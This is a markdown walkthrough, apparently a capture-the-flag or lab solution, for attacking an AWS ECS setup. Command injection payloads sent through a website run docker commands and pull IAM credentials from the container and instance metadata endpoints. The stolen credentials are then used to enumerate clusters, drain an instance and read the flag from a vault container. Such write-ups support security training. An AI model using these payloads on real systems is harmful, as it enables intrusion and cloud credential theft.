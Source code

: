 1. Find the command injection vulnerability in the website.

    ```bash
    ; echo 'hello world'
    ```

3. Using command injection list the container on the host and get the ID for the privd container.

   `; docker ps --format '{{.Names}} -- '`

   The privd docker ID will be the first field in the output from the following command.

   `; docker ps | grep privd`

4. Using command injection get the container credentials from the privd container as well as the host ECS instance.

   `; docker exec <container id> sh -c 'wget -O- 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI'`
   
   `; docker exec ba301a00c81b sh -c 'wget -O- 169.254.169.254/latest/meta-data/iam/security-credentials/ecs-agent'`

5. With the privd credentials list the clusters in the account then enumerate the tasks.

   ```
   aws ecs list-clusters --profile privd
   tasks=$(aws ecs list-tasks --cluster my-cluster --profile ecs --query taskArns --out text)
   aws ecs describe-tasks --cluster my-cluster --profile ecs --tasks $tasks --query 'tasks[].[taskDefinitionArn, taskArn, containerInstanceArn]' --out text
   ```

6. Set the container instance that is running the vault container to DRANING

    `aws ecs update-container-instances-state --cluster my-cluster --container-instances <> --status DRAINING`

9. Wait for "Vault" container to be rescheduled, this can be checked by running docker via command injection.

    `; docker ps | grep vault`

10. Using the command injection on the website get the flag from the "vault" container.

    ```
    ; docker exec 8e9be4ebf17b ls
    ; docker exec 8e9be4ebf17b cat FLAG.TXT
    ```
